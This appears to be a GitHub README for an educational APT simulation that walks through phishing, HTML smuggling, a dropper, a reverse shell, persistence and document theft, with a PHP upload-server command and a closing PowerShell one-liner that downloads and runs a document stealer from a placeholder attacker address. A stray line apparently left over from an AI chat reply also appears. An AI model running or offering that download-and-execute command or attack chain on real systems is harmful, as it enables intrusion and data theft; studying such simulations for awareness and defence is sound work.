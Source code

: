 # APT Simulation - Advanced Persistent Threat Attack

This project simulates an **Advanced Persistent Threat (APT)** attack, covering multiple stages from initial phishing to data exfiltration. The simulation is designed for educational and cybersecurity awareness purposes in a **controlled environment** such as VirtualBox.

## **Stages of the Attack**

### **1. Phishing (Initial Access)**

- A malicious **job description document (.docx)** is sent to the target.
- The document contains a **link to an HTML Smuggling page** that automatically downloads the initial dropper (**dropper.exe**).

### **2. HTML Smuggling (Dropper Execution)**

- When the target opens the link, **dropper.exe** is downloaded without triggering security warnings.
- If the user executes **dropper.exe**, it downloads additional payloads from the attacker's server.

### **3. Payload Deployment (Execution & Persistence)**

- The dropper downloads **shellcode (reverse shell)** from the attacker's server.
- A **PowerShell script** is executed to establish **persistence** via **Hijacking File Associations**.

### **4. Data Exfiltration (Document Theft)**

- A **PowerShell document stealer** searches for sensitive files (**.txt, .pdf, .xlsx, .csv**).
- Stolen files are uploaded to a **remote PHP web server** controlled by the attacker.

## **Components**

- **Dropper (C)**: Downloads & executes payloads.
- **Reverse Shell (C & Windows API)**: Establishes attacker connection.
- **PowerShell Scripts**: Handles persistence & document exfiltration.
- **PHP Web Server**: Receives stolen files.
- **HTML Smuggling (HTML & JavaScript)**: Bypasses browser security controls.
- **Phishing Document (DOCX)**: Social engineering bait.

## **How to Set Up the Simulation**

### **1. Configure Virtual Environment**

- Use **VirtualBox** with a **Windows VM** as the target.
- Set up an **attacker machine (Kali Linux/Ubuntu)** for control.

### **2. Start the Web Server**

```bash
php -S 0.0.0.0:8080 -t /path/to/upload_server/
```

### **3. Send the Phishing Document**

- Distribute the **malicious job description (.docx)** via email or messaging platforms.

### **4. Monitor the Attack Progress**

- Wait for the victim to execute **dropper.exe**.
- Capture the **reverse shell connection**.
- Extract stolen data from the PHP web server.

## **Disclaimer**

This project is strictly for **educational purposes**. Unauthorized use of these techniques on real systems **without permission** is illegal and may result in serious legal consequences. Use this simulation in a controlled and isolated environment only.

---

Let me know if you need **further refinements or additional details!** 🔥

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://attacker_ip/docs-stealer.ps1')"
